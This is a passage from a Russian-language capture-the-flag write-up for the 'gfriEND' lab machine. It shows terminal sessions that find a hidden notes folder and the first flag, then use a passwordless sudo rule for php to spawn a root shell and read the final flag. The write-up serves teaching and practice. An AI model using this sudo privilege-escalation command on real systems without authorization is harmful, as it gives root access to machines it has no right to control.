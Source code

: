 >И находим первый флаг:

```html
alice@gfriEND:~$ ls -la
total 32
drwxr-xr-x 4 alice alice 4096 Dec 13 14:47 .
drwxr-xr-x 6 root  root  4096 Dec 13 12:18 ..
-rw------- 1 alice alice   10 Dec 13 14:48 .bash_history
-rw-r--r-- 1 alice alice  220 Dec 13 12:16 .bash_logout
-rw-r--r-- 1 alice alice 3637 Dec 13 12:16 .bashrc
drwx------ 2 alice alice 4096 Dec 13 12:43 .cache
drwxrwxr-x 2 alice alice 4096 Dec 13 14:10 .my_secret
-rw-r--r-- 1 alice alice  675 Dec 13 12:16 .profile
alice@gfriEND:~$ cd .my_secret
alice@gfriEND:~/.my_secret$ ls
flag1.txt  my_notes.txt
alice@gfriEND:~/.my_secret$ cat my_notes.txt
Woahhh! I like this company, I hope that here i get a better partner than bob ^_^, hopefully Bob doesn't know my notes
alice@gfriEND:~/.my_secret$ cat flag1.txt
Greattttt my brother! You saw the Alice's note! Now you save the record information to give to bob! I know if it's given to him then Bob will be hurt but this is better than Bob cheated!

Now your last job is get access to the root and read the flag ^_^

Flag 1 : gfriEND{2f5f21b2af1b8c3e227bcf**********}
```

>Просмотрим разрешения для нашего юзера:

```html
alice@gfriEND:~$ sudo -l
Matching Defaults entries for alice on gfriEND:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on gfriEND:
    (root) NOPASSWD: /usr/bin/php
```

>Вызовем оболочку от root с помощью php:


```html 
alice@gfriEND://$ sudo /usr/bin/php -r "system('/bin/bash');"
```

>И берем второй флаг:

```html
root@gfriEND:/# cd root
root@gfriEND:/root# ls
flag2.txt
root@gfriEND:/root# cat flag2.txt

  ________        __    ___________.__             ___________.__                ._.
 /  _____/  _____/  |_  \__    ___/|  |__   ____   \_   _____/|  | _____     ____| |
/   \  ___ /  _ \   __\   |    |   |  |  \_/ __ \   |    __)  |  | \__  \   / ___\ |
\    \_\  (  <_> )  |     |    |   |   Y  \  ___/   |     \   |  |__/ __ \_/ /_/  >|
 \______  /\____/|__|     |____|   |___|  /\___  >  \___  /   |____(____  /\___  /__
        \/                              \/     \/       \/              \//_____/ \/

Yeaaahhhh!! You have successfully hacked this company server! I hope you who have just learned can get new knowledge from here :) I really hope you guys give me feedback for this challenge whether you like it or not because it can be a reference for me to be even better! I hope this can continue :)

Contact me if you want to contribute / give me feedback / share your writeup!
Twitter: @makegreatagain_
Instagram: @aldodimas73
```